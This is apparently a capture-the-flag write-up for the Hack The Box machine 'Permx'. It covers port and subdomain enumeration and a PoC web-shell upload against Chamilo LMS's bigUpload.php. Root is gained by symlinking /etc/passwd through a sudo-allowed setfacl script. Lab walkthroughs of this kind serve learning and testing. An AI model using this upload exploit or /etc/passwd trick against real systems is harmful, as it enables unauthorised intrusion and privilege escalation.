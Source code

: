 | Name            | Permx                                                                               |
| --------------- | ----------------------------------------------------------------------------------- |
| Platform        | HTB                                                                                 |
| Difficulty      | Ezz                                                                                 |
| OS              | Linux                                                                               |
| Used techniques | known exploit                                                                       |
| Technologies    | html, php, chamilo, hidden directories                                              |
| Tools           | gobuster,  BurpSuite, sqlmap, nc, strings, weak perms, symlink, discover credential |
| CVEs            | CVE-2023-34944                                                                      |

## Enumeration


```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://permx.htb
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.54 seconds
```


Important points: Ubuntu, hostnamp.
Possible users, enumeration from website: noah, elsie, ralph, mia and john doe.
### Directories

There are no directories out of the web site spidern

/courses.html
/team.html                    
/contact.html             
/index.html                 
/about.html                
/404                     
/testimonial.html            

None of them give us important information. There is no clear attack vector on this site.

### subdomains

**lms.permx.htb php extension**, is an admin panel.

![[Pasted image 20240710073644.png]]


If we try to enumerate directories, we find /documentation and there says that the version is 1.11, but we can not find a exploit for this version. However, we saw that we can still. Apart from that, we discover: */bin, /src/, /app,* ...
 
![[Pasted image 20240710073416.png]]

If we enumerate those directories, we will find config files and files with *.php* extension that can not be retrieved. It is a rabbit hole.

After that, looking for information about this app we found a upload vulnerability in one of the directories: *"Unrestricted file upload in big file upload functionality in `/main/inc/lib/javascript/bigupload/inc/bigUpload.php` in Chamilo LMS <= v1.11.24 allows unauthenticated attackers to perform stored cross-site scripting attacks and obtain remote code execution via uploading of web shell."*

## Foothold

Knowing which vulnerability it has, we just need to upload a reverse shell. This is the PoC:

```shell
$ echo '<?php system("id"); ?>' > rce.php
$ curl -F 'bigUploadFile=@rce.php' 'http://<chamilo>/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
The file has successfully been uploaded.
$ curl 'http://<chamilo>/main/inc/lib/javascript/bigupload/files/rce.php'

```

After getting shell, we can get access to those *php* files that we couldn't read before. In particular, *app/config* files will give us user account credentials:

![[Pasted image 20240710075118.png]]

If we spray them, we get ssh.



## Privilege Escalation

We can execute sudo for one script.:

![[Pasted image 20240710075214.png]]

There is a section for **setfacl** in gtfobins, however there are restrictions if we try to apply this script for files outside our home directory. One way to bypass them is using *symlinks.

If we create a symlink pointing to /etc/passwd, we can modify the perms in order to get root privileges.

In resume, we can execute on binary (**setfacl**) with root privileges to assign */etc/passwd* with **weak permission**.

```shell
ln -s /etc/passwd file
sudo /opt/acl.sh mtz rw ~/file
vi file
```


![[Pasted image 20240710080348.png]]
#### Developed map


![[permx10.10.11.23.png]]
#### Sources
https://starlabs.sg/advisories/23/23-4220/
https://gtfobins.github.io/gtfobins/setfacl/
https://infinitelogins.com/2021/02/24/linux-privilege-escalation-weak-file-permissions-writable-etc-passwd/